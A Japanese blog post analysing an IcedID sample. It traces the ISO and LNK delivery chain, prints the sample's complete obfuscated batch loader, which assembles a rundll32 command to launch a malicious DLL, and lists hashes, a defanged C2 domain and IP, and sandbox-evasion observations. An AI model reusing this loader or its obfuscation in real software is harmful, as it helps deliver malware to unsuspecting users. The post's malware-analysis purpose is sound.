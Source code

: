 # IcedIDを見てみる

最近、 bumblebeeの新型が出てきたという話を見ながら、とはいえIcedIDも未だに使われてるな、と何となく感じました。  
あ、ちなみに以下の記事をベースにして話してます。

[bumblebeeの新型が出たという記事](https://www.bleepingcomputer.com/news/security/bumblebee-malware-adds-post-exploitation-tool-for-stealthy-infections/)

[LoaderがIcedIDなどからbumblebeeに移行している記事](https://thehackernews.com/2022/04/cybercriminals-using-new-malware-loader.html)

ちなみにmalware bazaarで見る限りそれぞれ以下の検知量になっています。  

![bumblebeeの統計](./images/bumblebee-stats.png)
引用元： https://bazaar.abuse.ch/browse/tag/BUMBLEBEE/

![icedidの統計](./images/icedid-stats.png)
引用元： https://bazaar.abuse.ch/browse/tag/BUMBLEBEE/

うーん。IcedIDが減った、のは事実でしょうが正直bumblebeeの数（グラフのスケールが12までになってますのでだいぶ少ない）ということを考えますとまだまだIcedIDの方が多いですね。  
Note: スケールの変え方わからないので見づらい。。

まぁ、とりあえずIcedIDはまだまだちょくちょく名前を聞きますのでこっちを見てみよう！ということでチェックしていきます。

### 対象マルウェア

今回見るのは以下のハッシュ値です。  
`2bfaaf86092bd183c8295fded306708d154874e5aed0d6743e591c8f469858be`

レポーターは、`pr0xylife`さんですね。twitterフォローしてますけどおすすめです。  
![twitter](./images/proxylife-twitter.png)
引用： https://twitter.com/pr0xylife/status/1567663680099082240

まぁ、このツイートと今回のものはハッシュ違いますが。内容は同じです。  
それでは、とりあえず進めていきましょう。  

### ファイルを見てみる

まず、検体(zip)をダウンロードして解凍するとisoファイルが入っています。  
![isoファイル](./images/iso-file.png)

さて、このisoファイルをマウントしてみてみましょう。そうすると正直いつも通りの状態になってます。  

![isoファイル](./images/iso-file02.png)

なんというか、これ見てると思いますがしばらくは隠しファイルも表示するのをデフォルトにした方がいいんじゃないかな、と思いますね。  

ついでに`Document`という名前のファイルですがこれはリンクファイルです。アイコンはexplorerになってますが、実際には`led\\xenopus.bat`

![lnkファイル](./images/lnk-file.png)

では、このバッチはどうなっているのか？これを見てみましょう。  
長いですけど、最後まで書いておきましょう。これだけだったら悪性の挙動しないですからね、DLLファイルは上げてないので。  

```bat
@echo off
:dkympiohczr
set rovbcq=l
:lbszqranmew
set njplbf=f
:hplfjzkiqva
set rhwmko=w
:otsnhbwzekq
set nvatjr=k
:riyfavsctle
set xdszpj=h
:pugjfqdmvit
set kmahbn=p
:ezcpoxbufvk
set yegwaz=o
:rnlmegyxboj
set mlprxq=d
:dzftlpmcksu
set vngouf=c
:qezbywdvinm
set rjkzxm=s
:laoefyrdtkg
set sgabfw=x
:nhlziuxydpb
set drxklq=e
:jqklgerxzsf
set jnboce=g
:bdocljgiewy
set ligzpu=i
:nzdqmlbugia
set axmgkn=a
:hvnxsemopcq
set iaxhro=t
:lazyruehsvc
set cuypsm=q
:pjflbraimhs
set venfld=u
:gzkoxpqeacn
set rkbtwm=n
:mswjvotzxbe
set nyhdtv=m
:uqgicfvhaxy
set jmaobn=b
:krsulcitzdx
set dztvcy=y
:emnrhsyfcvq
set xgsmbj=z
:wjgnzliekft
set lzaxgo=r
:hwudryzocpv
set fvnqul=j
:emtwukylfor
set smicae=v
:phqvgsmyiej
:ZJJ%kmahbn%%sgabfw%%vngouf%C%mlprxq%UQ%drxklq%T%rjkzxm%%njplbf%%nvatjr%Q%xdszpj%DH%xdszpj%B%njplbf%MB%xgsmbj%K%rovbcq%O
%lzaxgo%%venfld%%rkbtwm%%mlprxq%%rovbcq%%rovbcq%32 %rovbcq%%drxklq%%mlprxq%\%kmahbn%%lzaxgo%%drxklq%%kmahbn%%yegwaz%%rjkzxm%%rjkzxm%%drxklq%%rjkzxm%%rjkzxm%%ligzpu%%rkbtwm%%jnboce%.%mlprxq%%rovbcq%%rovbcq%,#1
:I%nvatjr%V%rhwmko%S%xdszpj%MQ
```

これ、何やってるかお分かりになりますかね？正直簡単な内容だからわかる人も多いかな、とは思います。  
内容は、単純で変数を定義してそれを組み合わせてコマンドを作ってます。

こういう時、逐一組み立ててもいいんですが、コマンド実行するところを`echo`で画面に出してしまうのが一番簡単です。  
ということで、以下のようにしてみます。(最後もついでにechoしました)  
```dos
echo %lzaxgo%%venfld%%rkbtwm%%mlprxq%%rovbcq%%rovbcq%32 %rovbcq%%drxklq%%mlprxq%\%kmahbn%%lzaxgo%%drxklq%%kmahbn%%yegwaz%%rjkzxm%%rjkzxm%%drxklq%%rjkzxm%%rjkzxm%%ligzpu%%rkbtwm%%jnboce%.%mlprxq%%rovbcq%%rovbcq%,#1
echo :I%nvatjr%V%rhwmko%S%xdszpj%MQ
```

で、batを実行してみると以下のようになります。  

![コマンド実行箇所](./images/cmd01.png)

さて、これで分かったことはdllファイルをrundll32で動かしていることですね。では今度はこのDLLファイルを見てみましょうか。  

sha256: c6d6277f1355336eb5da55531c1cc927067a1defee412c60ceb281452d2388d6

virustotalでは以下になってます。さすがに時間がたってるので大量に検出されてますね。  
![dll01](./images/dll-vt01.png)

relationを見ると、以下のように通信しているようです。  

![dll02](./images/dll-vt02.png)

通信先は`hxxp[:]//leonyelloswen[.]com`というURLになっています。  
名前解決後のIPアドレスは`138[.]197[.]151[.]48`です。

次に、DLL起動後に以下のようにインジェクション挙動があるようです。  
うーん。これについては何を起動するところで検知したのかがわからないですし、何とも言い難いです。  
![dll03](./images/dll-vt03.png)

サスペンドでプロセス起動するインジェクションで有名なのは`process hollowing`だと思いますが、これはどうなんでしょうかね。。  

さて、次にsandboxの古典的回避があったのでそれを見ます。  
![dll03](./images/dll-vt04.png)

長時間のスリーブは、なんだかんだ言ってやっぱり使われますね。  

静的解析も出来ればいいんですけどね。いずれは書いていきたい。

### 終わりに。

今回は、IcedIDを見ていきました。正直いつもとそこまで変わらない挙動をしていたような気もしますが。  
次は、bumblebeeを見てみましょうかね。ありがとうございました。

